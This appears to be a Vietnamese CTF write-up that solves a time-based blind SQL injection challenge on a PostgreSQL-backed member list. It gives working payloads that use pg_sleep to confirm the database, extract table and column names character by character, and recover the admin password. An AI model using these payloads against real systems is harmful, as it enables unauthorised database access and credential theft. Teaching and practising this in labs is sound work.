```yaml
---
title: SQLI_time_base

---
```


![image](../image/3.1.png)

title hãy kiên nhẫn =))), ok rất mất thời gian
![image](../image/3.2.png)

web có 2 chức năng chính, tuy nhiên feature login mình đã check rồi không bị sqli, chỉ còn member list

như 1 thói quen khi check time base, mình sẽ cho nó sleep.
ở đây mình check từng syntax sleep của từng db, và khi truyền payload pg_sleep(10) thì nó đã sleep thật -> db là postgreSQL

```
1;select%20pg_sleep(20)--a
```
![image](../image/3.3.png)

việc cần làm giờ là brute force tên bảng, cột rồi lấy data thôi, tuy nhiên ở bài này cũng là blind nên cần brute force từng kí tự 

mình phải check xem tên bảng có bao nhiêu kí tự để còn brute force tên bảng, và đây là payload mình sử dụng

```
1;select case when ((select length(table_name) from information_schema.tables limit 1) = 5 ) then pg_sleep(10) else pg_sleep(-1) end --a
```
![image](../image/3.4.png)

payload này cơ bản nên các bạn cố gắng hiểu nhé
vậy là check độ dài tên bảng thứ nhất là 5
Bài này bảng thứ nhất chứa password mới nhanh, chứ không ae phải thêm thằng off set để check table thứ 2,3,4,... thì có mà đến mùa quýt =)))

khi đã có độ dài tên bảng thì tìm tên bảng thôi, brute force từng kí tự

```
1;select case when (substr(select table_name from information_schema.tables limit 1),1,1)=chr(65)) then pg_sleep(10) else pg_sleep(-1) end --a
```

ở đây mình dùng hàm chr() vì đã thử trước đó rồi :v, nếu truyền dạng text vào thì không sleep tí mẹ nào cả =))). còn hàm chr() là gì các bạn research nhá kkk. đại loại là nó chuyển từ unicode sang text thôi

đến đây thì có thể brute force được rồi, thay đổi substr để check kí tự thứ 2, kết quả cuối cho ta bảng tên `users`

có tên bảng thì check tên cột

```
1; select case when (substr((select column_name from information_schema.columns where table_name='users' limit 1), 1, 1) = chr(65)) then pg_sleep(10) else pg_sleep(0) end --a
```
sẽ tìm được tên cột là password thôi, hơi tốn thời gian nên mình ko làm lại nữa

payload lấy password


```
1; select case when (select password from users where username='admin') like 'a%' then pg_sleep(10) else pg_sleep(0) end --a
```


kiểm tra xem kí tự đầu có phải `'a'` không. 

hơi tốn thời gian nhưng đề bảo hãy kiên nhẫn mà =))))

`Flag:xxx-lam_di_dung_chep-xxx`
